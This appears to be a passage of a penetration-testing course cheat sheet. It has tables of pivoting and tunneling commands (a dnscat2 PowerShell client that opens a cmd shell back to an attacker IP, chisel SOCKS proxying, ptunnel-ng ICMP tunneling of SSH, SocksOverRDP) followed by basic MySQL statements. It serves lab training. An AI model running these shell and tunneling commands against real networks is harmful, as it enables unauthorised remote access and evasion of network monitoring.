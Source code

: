 | `Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd` | PowerShell command used to connect to a specified dnscat2 server using an IP address, domain name, and preshared secret. The client will send back a shell connection to the server (-Exec cmd). |
| `dnscat2> ?` | Used to list dnscat2 options. |
| `dnscat2> window -i 1` | Used to interact with an established dnscat2 session. |
| `./chisel server -v -p 1234 --socks5` | Used to start a chisel server in verbose mode listening on port 1234 using SOCKS version 5. |
| `./chisel client -v 10.129.202.64:1234 socks` | Used to connect to a chisel server at the specified IP address & port using SOCKS. |
| `git clone https://github.com/utoni/ptunnel-ng.git` | Clones the ptunnel-ng project GitHub repository. |
| `sudo ./autogen.sh` | Used to run the autogen.sh shell script that will build the necessary ptunnel-ng files. |
| `sudo ./ptunnel-ng -r10.129.202.64 -R22` | Used to start the ptunnel-ng server on the specified IP address (-r) and corresponding port (-R22). |
| `sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22` | Used to connect to a specified ptunnel-ng server through local port 2222 (-l2222). |
| `ssh -p2222 -lubuntu 127.0.0.1` | SSH command used to connect to an SSH server through a local port. This can be used to tunnel SSH traffic through an ICMP tunnel. |
| `regsvr32.exe SocksOverRDP-Plugin.dll` | Windows-based command used to register the SocksOverRDP-Plugin.dll. |
| `netstat -antb |findstr 1080` | Windows-based command used to list TCP network connections listening on port 1080. |

# SQL Injection

| Command | Description |
|---------|-------------|
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | Login to MySQL database |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1, ..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |

## Tables

| Command | Description |
|---------|-------------|
| `SELECT * FROM table_name` | Show all columns in a table |
| `SELECT column1, column2 FROM table_name` | Show specific columns in a table |
| `DROP TABLE logins` | Delete a table |
| `ALTER TABLE logins ADD newColumn INT` | Add new column |
| `ALTER TABLE logins RENAME COLUMN newColumn TO oldColumn` | Rename column |
| `ALTER TABLE logins MODIFY oldColumn DATE` | Change column datatype |
| `ALTER TABLE logins DROP oldColumn` | Delete column |
